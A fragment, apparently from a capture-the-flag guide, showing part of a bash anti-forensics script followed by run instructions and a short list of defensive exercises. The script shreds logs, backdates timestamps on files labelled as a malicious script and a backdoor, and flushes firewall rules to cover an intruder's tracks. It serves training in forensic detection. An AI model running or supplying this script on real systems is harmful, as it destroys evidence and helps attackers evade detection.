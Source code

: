 ```bash
    shred -u "$log"
done

# Modify timestamps on files
FILES_TO_MODIFY=(
    "/tmp/malicious_script.sh"
    "/var/tmp/backdoor"
)

for file in "${FILES_TO_MODIFY[@]}"; do
    touch -t 202401011200.00 "$file"
done

# Clear network activity traces
iptables -F

echo "Tracks cleared successfully."
```

Save this script as `clear_tracks.sh`, make it executable, and run it:
```bash
chmod +x clear_tracks.sh
./clear_tracks.sh
```

---

## **8. Defensive Exercises**
For CTFs, you can provide logs and file evidence altered using the above techniques and challenge participants to:
- Detect modified logs.
- Recover deleted files.
- Analyze hidden backdoors.
- Trace an attacker’s activity despite attempted cover-ups.

---
